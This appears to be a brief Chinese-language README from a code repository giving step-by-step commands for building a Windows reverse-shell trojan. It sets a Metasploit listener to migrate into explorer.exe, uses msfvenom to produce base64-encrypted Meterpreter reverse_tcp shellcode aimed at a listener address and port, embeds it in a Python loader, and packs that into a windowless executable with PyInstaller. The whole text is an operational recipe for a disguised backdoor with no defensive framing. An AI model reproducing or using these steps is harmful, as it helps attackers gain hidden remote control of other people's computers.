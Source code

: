 	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
	>msfvenom -p windows/meterpreter/reverse_tcp --encrypt base64 LHOST=192.168.0.108 LPORT=12138 -f c -o /var/www/html/1.c
	Shellcode粘贴在shellcode+base64+c.py中
	>python pyinstaller-script.py -F -w shellcode.py
	会在目录下生成dist文件夹，exe文件就在里面